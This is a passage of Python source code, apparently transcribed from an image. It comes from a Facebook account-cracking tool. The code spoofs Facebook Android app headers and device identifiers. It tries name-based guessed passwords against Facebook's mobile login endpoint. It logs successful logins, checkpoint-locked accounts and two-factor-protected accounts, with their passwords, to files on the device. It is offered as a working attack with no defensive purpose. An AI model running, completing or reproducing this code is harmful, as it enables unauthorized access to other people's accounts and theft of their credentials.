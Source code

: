             android_version = device['android_version']
            model = device['model']
            build = device['build']
            fblc = device['fblc']
            fbcr = sim_id
            fbmf = device['fbmf']
            fbbd = device['fbbd']
            fbdv = device['fbdv']
            fbsv = device['fbsv']
            fbca = device['fbca']
            fbdm = device['fbdm']
            fbfw = '1'
            fbrv = '0'
            fban = 'FB4A'
            fbpn = 'com.facebook.katana'
            ua = 'Dalvik/2.1.0 (Linux; U; Android 10; RMX1911 Build/QKQ1.200209.002) [FBAN/MobileAdsManagerAndroid;FBAV/322.0.0.29.102;FBBV/460320330;FBRV/0;FBPN/com.facebook.adsmanager;FBLC/en_US;FBMF/realme;FBBD/realme;FBDV/RMX1911;FBSV/10;FBCA/arm64-v8a:armeabi-v7a:armeabi;FBDM/{density=2.0,width=720,height=1456};FB_FW/1;]'
          #  print (ua)
            teca = f'Mozilla/5.0 (Linux; Android 4.4.2; Nexus 4 Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.114 Mobile Safari/537.36 {uazz}'
            header = {"User-Agent": "Dalvik/2.1.0 (Linux; U; Android 5; ARE-L22HN Build/QP1A.521094.694) [FBAN/FB4A;FBAV/356.0.0.28.112;FBBV/353870778;FBDM/{density=3.0,width=1080,height=2132};FBLC/en_US;FBRV/354800271;FBCR/NTT DOCOMO;FBMF/OPPO;FBBD/OPPO;FBPN/com.facebook.katana;FBDV/CPH1983;FBSV/9;FBBK/1;FBOP/1;FBCA/arm64-v8a:;]", "Content-Type": "application/x-www-form-urlencoded", "Host": "graph.facebook.com", "X-FB-Net-HNI": "22739", "X-FB-SIM-HNI": "35221", "X-FB-Connection-Type": "MOBILE.LTE", "X-Tigon-Is-Retry": "False", "x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62", "x-fb-device-group": "5120", "X-FB-Friendly-Name": "ViewerReactionsMutation", "X-FB-Request-Analytics-Tags": "graphservice", "X-FB-HTTP-Engine": "Liger", "X-FB-Client-IP": "True", "X-FB-Server-Cluster": "True", "x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62"}
            px = px.replace("first", first).replace("last", last)
            px = px.lower()
            data={"adid": "dee1a988-b9d1-4e29-800b-c9cb0ab39dff", "format": "json", "device_id": "402f0ad7-cd8b-4164-81c6-15716182886d", "cpl": "true", "family_device_id": "f3a6ac5b-2985-4d4e-a82c-a0af360c703d", "credentials_type": "device_based_login_password", "email": " TESTING", "password": " TEST", "access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32", "generate_session_cookies": "1", "meta_inf_fbmeta": "", "advertiser_id": "67a8ca05-cdc1-46f5-80bc-ec650a279fdc", "currently_logged_in_userid": "0", "locale": "id_ID", "client_country_code": "PK", "method": "auth.login", "fb_api_req_friendly_name": "authenticate", "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler", "api_key": "882a8490361qa98702bf97a021ddc14d"}         
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
            if 'session_key' in response.text:
                print('\r{}\033[1;92m [AMAN-OK] {} {} {} {}'.format(G, url, fax, px, mys))
                open('/sdcard/ok.txt','a').write(f'{url}|{px}\n')
                oku.append(url)
                break
            elif 'checkpoint' in response.text:
          #      print('\r{}\033[1;91m[Checkpiont] {} {} {} {}'.format(G, url, fax, px, mys))
                cpu.append(url)
                open('/sdcard/cp.txt','a').write(f'{url}|{px}\n')
                break
            elif 'Login approvals are on' in response.text:
        #        print('\r{}\033[1;94m[2F-KING] {} {} {} {}'.format(G, url, fax, px, mys))
                open('/sdcard/2f.txt','a').write(f'{url}|{px}\n')